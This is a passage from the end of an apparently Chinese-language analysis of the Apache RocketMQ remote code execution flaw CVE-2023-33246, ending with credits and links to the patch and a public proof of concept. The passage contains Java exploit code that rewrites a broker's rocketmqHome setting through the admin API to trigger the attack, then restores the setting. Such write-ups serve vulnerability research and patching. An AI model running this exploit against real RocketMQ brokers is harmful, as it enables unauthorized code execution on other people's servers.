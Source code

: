 ```
            String rocketmqHome = brokerConfig.getProperty("rocketmqHome");
            System.out.println("初始rocketmqHome为: " + rocketmqHome);
            admin.updateBrokerConfig(IP + ":" + Port, props);
            System.out.println("攻击已结束!请稍后查看结果!");
            Thread.sleep(35000L);
            props.setProperty("rocketmqHome", rocketmqHome);
            admin.updateBrokerConfig(IP + ":" + Port, props);
            System.out.println("配置已经还原为: " + brokerConfig.getProperty("rocketmqHome") + "!");
            admin.shutdown();
        }

    }
}
```

可以直接去调用rocketmq的对应功能，就不用直接写在python中了，最后恢复了配置



致谢：Le1a，H3mesk1t

参考链接

http://www.lvyyevd.cn/archives/rocketmqrcecve-2023-33246-fen-xi

https://github.com/Le1a/CVE-2023-33246

https://github.com/apache/rocketmq/pull/6733/files

https://github.com/apache/rocketmq/pull/6749/files#diff-75dc81431f5bf53074b54cc9c7085b7dc1d1d2faede5f6e15593aa07b28f1509
